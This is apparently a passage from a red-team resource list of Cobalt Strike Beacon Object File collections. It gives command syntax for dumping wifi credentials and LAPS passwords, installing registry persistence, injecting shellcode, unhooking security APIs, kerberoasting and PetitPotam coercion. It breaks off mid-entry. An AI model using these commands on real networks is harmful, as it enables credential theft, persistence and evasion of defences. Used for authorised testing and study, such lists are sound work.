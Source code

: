 - [**BOF Collection**](https://github.com/rvrsh3ll/BOF_Collection)<br />
A set of BOFs useful for enumeration and exploitation. Examples include:<br />
```
inline-execute GetDomainInfo.o --> Get domain info from DC

inline-execute GetClipboard.o --> Prints any text on the user's clipboard

enumwifi --> Enumerate wifi connections
dumpwifi Wifi_Profile_Name --> Dump wifi cleartext credentials

bofportscan 192.168.1.10 3389 --> Port scanner

inline-execute RegistryPersistence.o Install --> Install registry persistence
inline-execute RegistryPersistence.o Remove --> Remove registry persistence
```

- [**whereami**](https://github.com/boku7/whereami)<br />
A "Where Am I" BOF which is a way to run the whoami.exe binary but in an opsec safe way by pulling the info from the current Beacon process memory.<br />
Also pulls current environment variables.<br />
```whereami```

- [**RiccardoAncarani BOFs**](https://github.com/RiccardoAncarani/BOFs)<br />
A useful BOF collection to perform various tasks in a safer opsec way.
```
send_shellcode_via_pipe <pipe> <file> --> Send shellcode or any byte via a named pipe
wts_enum_remote_processes <host> --> Enumerate remote processes using WTS APIs
unhook <module>, unhook ntdll.dll --> Use direct syscalls to unhook APIs of a specific DLL (works only on 64-bit Beacons)
```

- [**Outflank C2 Tool Collection**](https://github.com/outflanknl/C2-Tool-Collection)<br />
Great list of useful tools converted to BOFs for better opsec.<br />
Tools like add machine account, kerberoast, LAPS password dump, SMB info, LDAP AD spray, and more!
```
GetMachineAccountQuota --> Get domain machine account quota
AddMachineAccount [*Computername] [Optional Password] --> Create new machine account - requires MachineAccountQuota to create new account
Domaininfo --> Enumerate AD domain
Kerberoast list --> List SPN enabled accounts
Kerberoast roast SamAccountName --> Kerberoast specific username
Lapsdump <computername> --> Dump LAPS passwowrds on remote systems within AD (requires elevated privileges on target)
Psc --> Show detailed information from processes with established TCP and RDP connections
Psw --> 	Show window titles from processes with active windows
Psx --> Show detailed information from all processes running on the system and provides a summary of installed security products and tools.
Smbinfo <compuername> --> Get SMB info of remote system instead of using CS portscan SMB
Winver --> Shows the version of Windows that is running on the local system
FindModule amsi.dll --> Identify processes which have a certain module loaded, i.e. winhttp.dll
FindProcHandle lsass.exe -->  Identify processes with a specific process handle in use, i.e. lsass.exe
PetitPotam [capture server ip or hostname] [target server ip or hostname] --> Coerce relayed auth to a target machine (or localhost)
```

- [**cobaltstrike-cat-bof**](https://github.com/tvgdb/cobaltstrike-cat-bof))<br />
Simple BOF to `cat` a file on disk.<br />
```
cat <file>
```

- [**tgtdelegation**](https://github.com/sliverarmory/tgtdelegation)<br />
Kerberos ticket delegation - Obtain usable TGTs for the current user, does not require Admin privileges!<br />
```